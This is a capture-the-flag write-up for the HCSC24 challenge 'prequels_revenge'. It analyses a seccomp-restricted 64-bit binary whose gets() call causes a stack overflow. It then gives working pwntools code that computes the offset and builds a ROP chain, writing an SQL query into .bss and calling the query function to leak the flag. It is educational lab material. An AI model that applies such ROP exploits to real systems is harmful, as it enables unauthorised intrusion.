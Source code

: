 # Overview
The given zip file contains a docker image with a 64 bit binary called prequel. There is also a `create_message_db.sh` script in the assets directory which creates an sqlite database in a file called `messages.db`

This challenge is essentially the same as `prequels`, but this time we don't have any debug functions or useful strings, so we have to be smart about constructing our ROP chain.

## Binary
![](screenshots/executable.png)
We have a statically linked 64-bit ELF executable. The symbols are fortunately not stripped. Pwntools' `checksec` says that there is stack canary protection in place - this is actually not true for the main function, and there isn't a memory segment that is writeable and executable at the same time. We also don't have to worry about ASLR, the binary starts always at the same address in the memory.

## Running the binary
![](screenshots/running_executable.png)

The binary asks for a name, does an sql query and prints out the result.

## Decompiling
![](screenshots/decompiled.png)

When we open up the binary in our favourite decompiler we can see that the program uses seccomp (Secure Computing mode). This is a feature in the Linux kernel that is designed to filter system calls.
We can use `seccomp-tools` to dump the restrictions.

![](screenshots/seccomp.png)
As you can see using execve and execveat results in terminating the process, so we can't really get a shell without exploiting the kernel itself in order to bypass the seccomp filter. However, this protection won't stop us from getting the flag.

## The vulnerability
![](screenshots/read_name.png)

The function `read_name` calls `gets` on a given buffer. It is a well-known fact that using `gets` is a bad idea, because it doesn't do a length check on the input at all before writing it to the buffer. This is a classical case of a stack-based buffer overflow.

## Exploitation
Our buffer in this case is 64 bytes long, and there is an 8 bytes long base pointer, so the offset will be 72 bytes till the return address.
We can also calculate this dynamically with the following code.
```python
from pwn import *

p = process("./prequels_revenge")
g = cyclic_gen()

p.sendline(g.get(100))
p.wait()

print(cyclic_find(p.corefile.fault_addr))
```

Since no segment is writeable and executable at the same time we have to use return oriented programming (ROP), we can't just send a shellcode and jump there.
This time our job is harder than the previous challenge, because there are no debug functions, and there is no `SELECT * FROM flag;` string in the binary that we could utilize for getting the flag.

Our new strategy is to call the gets on a writeable memory address (for example bss), write `SELECT * FROM flag;` to that place and then call get_messages with the query provided by us.
This is pretty easy, we need a pop rdi gadget, and the address of gets and get_message. We don't have to supply another parameter to get_message, because it only prints out a warning, when we don't supply the second parameter.

This time I utilized pwntools' automatic rop chain building capabilities.

```python
from pwn import *

context.binary = elf = ELF("./prequels_revenge")

p = process()

r = ROP(elf)
r.raw(b"A" * 72) # padding

r.gets(elf.bss()) # elf bss is a writeable memory address
r.get_message(elf.bss())

p.sendline(r.chain())
p.sendline(b"SELECT * FROM flag;")
p.recvuntil(b"Failed to bind text: column index out of range\n")

flag = p.recvline().decode()
log.info("Got flag: " + flag)
```

Running the exploit on remote yields the following flag: `HCSC24{h0pe_y0u_u53d_the_str1nG_1n_pR3qu3l_4nd_n0t_b0ring_r34d}`
This is pretty funny, because my first method for solving the previous challenge named `prequels` was this exploit, then I realized there is a simpler way, but actually this was beneficial, because on the second day this challenge came out and I already had this exploit.